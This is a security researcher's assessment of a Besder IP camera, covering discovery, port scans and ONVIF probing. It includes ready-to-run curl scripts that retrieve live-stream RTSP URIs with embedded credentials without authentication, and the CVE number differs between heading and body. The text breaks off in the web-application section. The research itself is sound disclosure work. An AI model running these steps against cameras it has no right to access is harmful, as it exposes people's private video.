# Security Assessment of Besder 6024PB-XMA501 IP Camera

Security assesment of cheap and old Chinese IP camera (Part 1)

Table of Contents
=================
* [Security Assessment of Besder 6024PB-XMA501 IP Camera](#security-assessment-of-besder-6024pb-xma501-ip-camera)
* [Setup](#setup)
* [Device Discovery](#device-discovery)
* [Port Scan](#port-scan)
* [ONVIF Capabilities](#onvif-capabilities)
	* [CVE-2025-65856 - exposing RTSP URIs with hardcoded credentials using GetStreamURI method](#cve-2025-65856---exposing-rtsp-uris-with-hardcoded-credentials-using-getstreamuri-method)
		+ [Method 1: Curl](#method-1-curl)
		+ [Method 2: Python Script](#method-2-python-script)
* [Port 80: Web Application](#port-80-web-application)
  * [Network Traffic Analysis](#network-traffic-analysis)
  * [Unpacking m.jsp](#unpacking-mjsp)
    + [Method 1: Unpacker by MatthewFL](#method-1-unpacker-by-matthewfl)
    + [Method 2: Browser console](#method-2-browser-console)
  * [Login Page](#login-page)
    + [Individual Artifacts](#individual-artifacts)
    + [Login Function](#login-function)
    + [Configuration Script](#configuration-script)
* [Port 34567: Reverse Engineering of Dhanalakshmi Service](#port-34567-reverse-engineering-of-dhanalakshmi-service)
  * [Password Hash Function](#password-hash-function)
    + [Brute Forcing Sofia Hash](#brute-forcing-sofia-hash)
  * [CVE-2024-3765 - Unauthorized Incorrect Access Control and Command Execution](#cve-2024-3765---unauthorized-incorrect-access-control-and-command-execution)
  * [Dissecting DVRIP/Sofia protocol in Wireshark](#dissecting-dvripsofia-protocol-in-wireshark)

# Setup

Camera was set up using ICSee smartphone app. 5GHz Wi-Fi is not supported by the camera, 2.4GHz needs to be used.

Note: the camera does not appear on a local network before configuration.



When connected to Wi-Fi, QR code needs to be scanned with the camera to bind it with a smartphone.


The setup is then complete. On successful addition, the default password needs to be changed (default credentials are admin:\<empty\>).



During camera setup, Wireshark captured 109 packets from camera to broadcast address (cameras port 34569/UDP was used for it) with the following JSON payload:

```json
{
  "NetWork.NetCommon":
  {
    "BuildDate": "2020-11-24 16:47:14",
    "ChannelNum": 1,
    "DeviceType": 24,
    "GateWay": "0x0100A8C0", # Gateway IP address as string of bytes in little-endian order
    "HostIP": "0x6700A8C0", # Camera IP address as string of bytes in little-endian order
    "HostName": "<redacted>; has a prefix \"camera_\" and includes last two bytes of IP cameras MAC address",
    "HttpPort": 80,
    "MAC": "<redacted>; MAC address of IP camera",
    "MonMode": "TCP",
    "NetConnectState": 0,
    "OtherFunction": "D=2026-01-26 09:39:00 V=d7c59c8b475d964",
    "SN": "<redacted>; serial number of IP camera",
    "SSLPort": 8443,
    "Submask": "0x00FFFFFF",
    "TCPMaxConn": 10,
    "TCPPort": 34567,
    "UDPPort": 34568,
    "UseHSDownLoad": false,
    "Version": "V5.00.R02.00030747.10010.349f17.0000000"
  },
  "Ret": 100,
  "SessionID": "0x00000000"
}
```

60 queries were also sent from port 34571/UDP:

```json
{
	"NetWork.NetCommon" :
	{
		"HostIP" : "0x6700a8c0",
		"HostName" : "IPC",
		"DeviceType" : 24,
		"MAC" : "<redacted>",
		"SN" : "<redacted>",
		"TCPPort" : 34567
	},
	"SearchType" : "Config"
}
```

# Device Discovery

Use `arp-scan -l` to discover active hosts:



The Besder camera appears as **AltoBeam (Xiamen) Technology Ltd, Co.** device as it is [a WiFi chipset manufacturer](https://www.wpgholdings.com/productline/detail/en/ALTOBEAM) for this Besder camera.

ARP scan also confirms the IP address of the camera seen in the previous Wireshark capture.

One thing to note is that every time the camera is connected, it gets IP address assigned dynamically, in the range of at least 192.168.0.100 - 192.168.0.103. Also, in the web interface, a default static address (albeit disabled) is set to 192.168.0.10.

# Port Scan

To quickly scan all 65535 TCP ports, `sudo nmap -sS -Pn -T5 -p- ${camera-ip}` command was used:



All open ports were scanned with `sudo nmap -p 80,554,8899,12901,34567 -sV -O -sC -oN portscan.txt ${camera-ip}`

```
# Nmap 7.98 scan initiated Tue Jan 20 12:35:36 2026 as: /usr/lib/nmap/nmap -p 80,554,8899,12901,34567 -sV -O -sC -oN portscan.txt 192.168.0.102
Nmap scan report for 192.168.0.102
Host is up (0.0064s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-type: text/html
|     Expires: 0
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge"/>
|     <link rel="stylesheet" type="text/css" media="screen" href="m.css" />
|     <title>NETSurveillance WEB</title>
|     <!-- m.js -->
|     <script type="text/javascript" language="JavaScript">
|     bCrossBrow=false;
|     bnpCheck = false;
|     showemailflag=0;
|     ShowTipFlag=2;
|     //wzy 20190904
|     g_initWidth = document.documentElement.clientWidth;
|     SupportFind=false;
|     if(navigator.platform != "Win32")//
|     userAgent = navigator.userAgent, 
|_    rMsie = /(msies|trident.
|_http-title: NETSurveillance WEB
554/tcp   open  rtsp          H264DVR rtspd 1.0
|_rtsp-methods: OPTIONS, DESCRIBE, SETUP, TEARDOWN, GET_PARAMETER, SET_PARAMETER, PLAY, PAUSE
8899/tcp  open  ospf-lite?
12901/tcp open  unknown
34567/tcp open  dhanalakshmi?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.98%I=7%D=1/20%Time=696FBCEC%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,1C80,"HTTP/1\.0\x20200\x20OK\r\nContent-type:\x20text/html\r\nEx
SF:pires:\x200\r\n\r\n<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTM
SF:L\x201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/
SF:xhtml1-transitional\.dtd\">\r\n<html\x20xmlns=\"http://www\.w3\.org/199
SF:9/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<meta\x20http-equiv=\"Content-T
SF:ype\"\x20content=\"text/html;\x20charset=UTF-8\"\x20/>\r\n\t<meta\x20ht
SF:tp-equiv=\"X-UA-Compatible\"\x20content=\"IE=edge\"/>\r\n\x20\x20\x20\x
SF:20<link\x20rel=\"stylesheet\"\x20type=\"text/css\"\x20media=\"screen\"\
SF:x20href=\"m\.css\"\x20/>\r\n\x20\x20\x20\x20\r\n\x20\x20\x20\x20<title>
SF:NETSurveillance\x20WEB</title>\r\n\x20\x20\x20\x20\r\n\x20\x20\x20\x20<
SF:!--\x20m\.js\x20-->\r\n\r\n\x20\x20\x20\x20<script\x20type=\"text/javas
SF:cript\"\x20language=\"JavaScript\">\r\n\x20\x20\x20\x20\x20var\x20bCros
SF:sBrow=false;\r\n\t\x20var\x20bnpCheck\x20=\x20false;\r\nvar\x20showemai
SF:lflag=0;\r\nvar\x20ShowTipFlag=2;\r\n\t\x20//wzy\x2020190904\r\n\x20\x2
SF:0\x20\x20\x20var\x20g_initWidth\x20=\x20document\.documentElement\.clie
SF:ntWidth;\r\n\t\r\n\t//\x20var\x20SupportFind=false;\r\n\t\x20\x20\x20\x
SF:20\r\n\tif\(navigator\.platform\x20!=\x20\"Win32\"\)//\r\n\t{\r\n\t}\r\
SF:n\tvar\x20userAgent\x20=\x20navigator\.userAgent,\x20\x20\x20\r\n\t\t\t
SF:rMsie\x20=\x20/\(msie\\s\|trident\.")%r(HTTPOptions,1F95,"HTTP/1\.0\x20
SF:200\x20OK\r\nContent-type:\x20text/html\r\nExpires:\x200\r\n\r\n<!DOCTY
SF:PE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\x201\.0\x20Transitional/
SF:/EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xhtml1-transitional\.dtd\"
SF:>\r\n<html\x20xmlns=\"http://www\.w3\.org/1999/xhtml\">\r\n<head>\r\n\x
SF:20\x20\x20\x20<meta\x20http-equiv=\"Content-Type\"\x20content=\"text/ht
SF:ml;\x20charset=UTF-8\"\x20/>\r\n\t<meta\x20http-equiv=\"X-UA-Compatible
SF:\"\x20content=\"IE=edge\"/>\r\n\x20\x20\x20\x20<link\x20rel=\"styleshee
SF:t\"\x20type=\"text/css\"\x20media=\"screen\"\x20href=\"m\.css\"\x20/>\r
SF:\n\x20\x20\x20\x20\r\n\x20\x20\x20\x20<title>NETSurveillance\x20WEB</ti
SF:tle>\r\n\x20\x20\x20\x20\r\n\x20\x20\x20\x20<!--\x20m\.js\x20-->\r\n\r\
SF:n\x20\x20\x20\x20<script\x20type=\"text/javascript\"\x20language=\"Java
SF:Script\">\r\n\x20\x20\x20\x20\x20var\x20bCrossBrow=false;\r\n\t\x20var\
SF:x20bnpCheck\x20=\x20false;\r\nvar\x20showemailflag=0;\r\nvar\x20ShowTip
SF:Flag=2;\r\n\t\x20//wzy\x2020190904\r\n\x20\x20\x20\x20\x20var\x20g_init
SF:Width\x20=\x20document\.documentElement\.clientWidth;\r\n\t\r\n\t//\x20
SF:var\x20SupportFind=false;\r\n\t\x20\x20\x20\x20\r\n\tif\(navigator\.pla
SF:tform\x20!=\x20\"Win32\"\)//\r\n\t{\r\n\t}\r\n\tvar\x20userAgent\x20=\x
SF:20navigator\.userAgent,\x20\x20\x20\r\n\t\t\trMsie\x20=\x20/\(msie\\s\|
SF:trident\.");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: broadband router|general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.10 cpe:/o:linux:linux_kernel:3
OS details: DD-WRT v24 or v30 (Linux 3.10), Linux 3.2 - 3.16
Network Distance: 2 hops
Service Info: Device: storage-misc

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan 20 12:38:53 2026 -- 1 IP address (1 host up) scanned in 197.14 seconds
```

# ONVIF Capabilities

Nmap flags this port as ospf-lite - [one experimental internet draft (that expired on November 6, 2010) can be found online](https://datatracker.ietf.org/doc/html/draft-thomas-reed-ospf-lite-01) regarding this protocol. It is mentioned that Internet Assigned Numbers Authority (IANA) has reserved port 8899 (both TCP and UDP) for ospf-lite, but no further information has been found yet.

Anyways, for Besder/Xiongmai cameras TCP port 8899 is actually reserved for Open Network Video Interface Forum (ONVIF) service. Based on WIreshark capture for the exploits shown below, this camera uses `hsoap 2.8` library that implements Simple Object Access Protocol (SOAP) - XML-based messaging protocol for structured information exchange and device management.

***Note:*** ONVIF is not accessible while camera is not configured with ICSee app.

## CVE-2025-65856 - exposing RTSP URIs with hardcoded credentials using GetStreamUri method

The **[CVE-2025-65857](https://nvd.nist.gov/vuln/detail/CVE-2025-65857)** id is given to this specific vulnerability, so let’s walk through it.

Main thing to look for here is to try and dig up a Real-Time Streaming Protocol (RTSP) URI and check for unauthenticated access to live stream of the camera. It can be done either by using curl from (Linux) command line or onvif-zeep library for Python 3. Let’s try both methods.

### Method 1: Curl

Every XML SOAP response does include it’s namespace declarations - whether or not all listed operations are supported by Besder 6024PB-XMA501 IP camera is a question of further research:

[Soap declarations](assets/SOAP_declarations.xml)

ONVIF availability can be verified by issuing GetDeviceInformation method:

```bash
#!/bin/sh

if [[ $# == 1 ]]; then # Accept only 1 argument
	if [[ ${1} =~ ^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}$ ]]; then # Match a valid IP address
		curl -X POST http://${1}:8899/onvif/device_service \
		-H "Content-Type: application/soap+xml" \
		-d '<?xml version="1.0" encoding="UTF-8"?>
		<s:Envelope xmlns:s="[http://www.w3.org/2003/05/soap-envelope](http://www.w3.org/2003/05/soap-envelope)">
		<s:Body>
		<GetDeviceInformation xmlns="[http://www.onvif.org/ver10/device/wsdl](http://www.onvif.org/ver10/device/wsdl)"/>
		</s:Body>
		</s:Envelope>' > device_information.xml

		xmllint --format device_information.xml > tmp

		mv tmp device_information.xml
	else
		printf "Invalid IP address\n"
	fi
else
	printf "Takes only 1 argument - IP address\n"
fi
```

The camera returns model name, firmware version and [XMeye P2P Cloud ID (SerialNumber)](https://sec-consult.com/blog/detail/millions-of-xiongmai-video-surveillance-devices-can-be-hacked-via-cloud-feature-xmeye-p2p-cloud/) - all without any authentication:

```xml
  <s:Body>
    <tds:GetDeviceInformationResponse>
      <tds:Manufacturer>H264</tds:Manufacturer>
      <tds:Model>XM530_50X50-WG_8M</tds:Model>
      <tds:FirmwareVersion>V5.00.R02.00030747.10010.349f17..ONVIF 16.12</tds:FirmwareVersion>
      <tds:SerialNumber>Redacted</tds:SerialNumber>
      <tds:HardwareId>00001</tds:HardwareId>
    </tds:GetDeviceInformationResponse>
  </s:Body>
</s:Envelope>
```

Key information got from this query:

1. Model: XM530_50X50-WG_8M
2. Firmware version: V5.00.R02.00030747.10010.349f17..ONVIF 16.12
3. Serial number: \<redacted\>

Now, to get all supported methods, execute GetCapabilities method:

```bash
#!/bin/sh

if [[ $# == 1 ]]; then # Accept only 1 argument
	if [[ ${1} =~ ^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}$ ]]; then # Match a valid IP address
		curl -s -X POST http://${1}:8899/onvif/device_service \
		-H "Content-Type: application/soap+xml" \
		-d '<?xml version="1.0" encoding="UTF-8"?>
		<s:Envelope xmlns:s="[http://www.w3.org/2003/05/soap-envelope](http://www.w3.org/2003/05/soap-envelope)">
		<s:Body>
		<GetCapabilities xmlns="[http://www.onvif.org/ver10/device/wsdl](http://www.onvif.org/ver10/device/wsdl)">
		<Category>All</Category>
		</GetCapabilities>
		</s:Body>
		</s:Envelope>' > device_capabilities.xml

		xmllint --format device_capabilities.xml > tmp

		mv tmp device_capabilities.xml
	else
		printf "Invalid IP address\n"
	fi
else
	printf "Takes only 1 argument - IP address\n"
fi
```

Response is the following:

[Supported Capabilities](assets/supported_capabilities.xml)

Looking for RTSP, `http://<camera-ip>:8899/onvif/media_service` is a relevant endpoint. Next step is to query this endpoint with `GetProfiles` method - this method describes all available media stream configurations on the camera:

```bash
#!/bin/sh

if [[ $# == 1 ]]; then # Accept only 1 argument
	if [[ ${1} =~ ^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}$ ]]; then # Match a valid IP address
		curl -s -X POST http://${1}:8899/onvif/media_service \
		-H "Content-Type: application/soap+xml" \
		-d '<?xml version="1.0" encoding="UTF-8"?>
		<s:Envelope xmlns:s="[http://www.w3.org/2003/05/soap-envelope](http://www.w3.org/2003/05/soap-envelope)">
		<s:Body>
		<GetProfiles xmlns="[http://www.onvif.org/ver10/media/wsdl](http://www.onvif.org/ver10/media/wsdl)"/>
		</s:Body>
		</s:Envelope>' > device_profiles.xml

		xmllint --format device_profiles.xml > tmp

		mv tmp device_profiles.xml
	else
		printf "Invalid IP address\n"
	fi
else
	printf "Takes only 1 argument - IP address\n"
fi
```

[Device Profiles](assets/device_profiles.xml)

Now it is necessary to parse the XML output for a profile token which will be used to access the main RTSP stream. Parsing was done with `grep -A 1 trt:Profile <output>.xml` command - looking for the following string:

```xml
<trt:Profiles fixed="true" token="PROFILE_000">
<tt:Name>mainStream</tt:Name>
```

Now, let’s use the token found with GetStreamUri method:

```bash
#!/bin/sh

if [[ $# == 1 ]]; then # Accept only 1 argument
	if [[ ${1} =~ ^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}$ ]]; then # Match a valid IP address
		curl -s -X POST http://${1}:8899/onvif/media_service \
		-H "Content-Type: application/soap+xml" \
		-d '<?xml version="1.0" encoding="UTF-8"?>
		<s:Envelope xmlns:s="[http://www.w3.org/2003/05/soap-envelope](http://www.w3.org/2003/05/soap-envelope)">
		<s:Body>
		<GetStreamUri xmlns="[http://www.onvif.org/ver10/media/wsdl](http://www.onvif.org/ver10/media/wsdl)">
		<ProfileToken>PROFILE_000</ProfileToken>
		<StreamSetup>
		<Stream xmlns="[http://www.onvif.org/ver10/schema](http://www.onvif.org/ver10/schema)">RTP-Unicast</Stream>
		<Transport xmlns="[http://www.onvif.org/ver10/schema](http://www.onvif.org/ver10/schema)">
		<Protocol>RTSP</Protocol>
		</Transport>
		</StreamSetup>
		</GetStreamUri>
		</s:Body>
		</s:Envelope>' > device_stream.xml

		xmllint --format device_stream.xml > tmp

		mv tmp device_stream.xml
	else
		printf "Invalid IP address\n"
	fi
else
	printf "Takes only 1 argument - IP address\n"
fi
```

The response I get is the following:

```xml
  <s:Body>
    <trt:GetStreamUriResponse>
      <trt:MediaUri>
        <tt:Uri>rtsp://<camera-ip>:554/user=admin_password=<password_hash>_channel=0_stream=0.sdp?real_stream</tt:Uri>
        <tt:InvalidAfterConnect>false</tt:InvalidAfterConnect>
        <tt:InvalidAfterReboot>false</tt:InvalidAfterReboot>
        <tt:Timeout>PT60S</tt:Timeout>
      </trt:MediaUri>
    </trt:GetStreamUriResponse>
  </s:Body>
```

The response gives RTSP URI with hardcoded credentials. Following the URI gives access to live stream of Besder IP camera:


### Method 2: Python script

Use [python-onvif-zeep](https://github.com/FalkTannhaeuser/python-onvif-zeep) library. Script takes 4 positional arguments:

1. IP address
2. ONVIF port
3. Username (default: admin)
4. Password (default: \<empty\>) - this field is required by Python ONVIF library, although exact value is irrelevant as it is not being checked anywhere. 

For Besder 6024PB-XMA501, default credentials are printed on the camera itself. [A sample script is provided at ONVIF_auth_bypass directory as xm_onvif_auth_bypass.py](ONVIF_auth_bypass/Python/xm_onvif_auth_bypass.py)

Running the script identifies 2 RTSP streams:

1. Main stream: `rtsp://<camera-ip>:554/user=admin_password=<password_hash>_channel=0_stream=0.sdp?real_stream`
1. Sub stream: `rtsp://<camera-ip>:554/user=admin_password=<password_hash>_channel=0_stream=1.sdp?real_stream`

Note about credentials:
1. User: admin
2. Password: 8 byte length hash of a password that was created during initial camera setup with ICSee app, see Section `Password Hash Function` for more details

# Port 80: Web application

**NetsurveillanceWEB** application is running on port 80. Although, when trying to access it with Firefox, I am greeted with a message that I require Firefox version 51 (released in Jan 24, 2017) or earlier.



NETSurveillanceWEB checks for the browser versions presented in the table below:

| Browser | Version | Release Date       |
| ------- | ------- | ------------------ |
| Firefox | 51.0    | January 24, 2017   |
| Opera   | 33.0    | October 27, 2015   |
| Chrome  | 44.0    | July 21, 2015      |
| Safari  | 9.0     | September 30, 2015 |

To further test the camera, an old Windows 10 19H2 virtual machine was deployed. That was because opening NETSurveillanceWEB control panel requires a legacy browser with ActiveX controls enabled and the easiest way to obtain them is to run the control panel on Internet Explorer:



Web application requires ActiveX plugin for correct operation. Download button redirects to `hxxp[://]xmsecu[.]com:8080/ocx/NewActive[.]exe` which then redirects to a different location:

```bash
curl -i -v hxxp[://]xmsecu[.]com:8080/ocx/NewActive[.]exe

# Response
HTTP/1.1 301 Moved Permanently
Server: nginx
Date: Sat, 24 Jan 2026 10:34:35 GMT
Content-Type: text/html
Content-Length: 162
Connection: keep-alive
Location: hxxps[://]ocx[.]jftechws[.]com/ocx/NewActive[.]exe

<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx</center>
</body>
</html>
```

Following the redirect gives the following:

```bash
curl -L -i -v hxxp[://]xmsecu[.]com:8080/ocx/NewActive[.]exe

# Response
HTTP/1.1 301 Moved Permanently
Server: nginx
Date: Sat, 24 Jan 2026 10:34:57 GMT
Content-Type: text/html
Content-Length: 162
Connection: keep-alive
Location: hxxps[://]ocx[.]jftechws[.]com/ocx/NewActive[.]exe

HTTP/1.1 404 Not Found
Server: nginx
Date: Sat, 24 Jan 2026 10:35:00 GMT
Content-Type: text/html
Content-Length: 146
Connection: keep-alive
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: *
Access-Control-Allow-Methods: GET, POST, OPTIONS, PUT, DELETE
Access-Control-Allow-Credentials: true

<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx</center>
</body>
</html>
```

NewActive binary is not found. Luckily, Wayback machine has 56 captures of the URL. The snapshot from March 9, 2021 allows to download NewActive.exe - installer for Netsurveillance CMS. Setting this up and enabling ActiveX in Internet Explorer allows access to login page.



Login credentials are `admin:<password created during setup on ICSee app>`. After successful login, NETSurveillanceWEB control panel opens and there is a possibility to choose either main media stream or extra (lower resolution) stream.



## Network Traffic Analysis

Wireshark was used to collect network traffic, which does include:

- Opening the NETSurveillanceWEB control panel.
- Connecting to the control panel.
- 70 seconds of video stream.

Filtered only for bidirectional network traffic between Windows 10 VM and Besder IP camera with `ip.src == 192.168.0.100 && ip.dst == 192.168.122.66 || ip.src == 192.168.122.66 && ip.dst == 192.168.0.100`

Web application - single HTML file with embedded Javascript and 3.5K lines - is sent to the VM:

